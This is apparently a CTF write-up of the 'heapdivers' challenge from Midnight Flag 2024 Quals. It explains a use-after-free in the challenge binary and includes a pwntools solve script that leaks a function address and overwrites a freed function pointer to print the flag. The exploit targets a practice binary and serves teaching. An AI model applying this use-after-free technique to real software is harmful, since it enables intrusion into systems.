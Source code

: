 ```yaml
---
title: heapdivers - Midnight Flag 2024 Quals
slug: midnight-flag-2024-quals-heapdivers
authors: redacean
tags: [ midnight flag, heap, pwn, x86, use-after-free, linux ]
image: /img/midnight-flag.png
---
```


This heap challenge consists in exploiting a use-after-free vulnerability to call a _win_ function and print the flag.
It was part of the Midnight Flag 2024 Quals CTF which took place in April 2024.

<!-- truncate -->

The binary prompts the user for a character and different functions will be called depending on the character supplied.
After taking a look at what each function does, the pattern becomes clear:

1. enter _'s'_ to call the `earth` function and leak the address of the `plant_the_flag` function that prints the flag
2. enter _'e'_ to call the `eagle` function and make the heap size grow
3. enter _'x'_ to call the `extraction` function and free the function pointer
4. enter _'l'_ to call the `quasar` function and overwrite the value pointed to by the function pointer — which was just deallocated — with the address of the `plant_the_flag` function

The above steps yield the script below.

```python title="solve.py" showLineNumbers
from pwn import *

context.log_level = 'debug'
context.arch = 'x86'

io = process('./heapdivers')
# io = remote('13.38.208.179', 10583)

io.sendafter(b'[F]lee\n', b's\n')
io.recvuntil(b'Wow, Is this a memory leak ? 0x')
win_addr = io.recvline().strip()
win_addr = int(win_addr, 16)
print('Win function address: 0x%x' % win_addr)
print(p32(win_addr))

io.sendafter(b'[F]lee\n', b'e\n')
io.sendafter(b'Please announce your code name\n', b'A'*0x100 + b'\n')

io.sendafter(b'[F]lee\n', b'x\n')
io.sendafter(b'Do you really want to extract helldivers ?[Y/N]\n', b'y\n')

io.sendafter(b'[F]lee\n', b'l\n')
io.recvuntil(b'A word for the end ?\n')
io.sendline(p32(win_addr))

io.stream()
```

The remote process returns the flag `MCTF{R@1s3_Fl@g_0f_Sup3r_3arth}`.
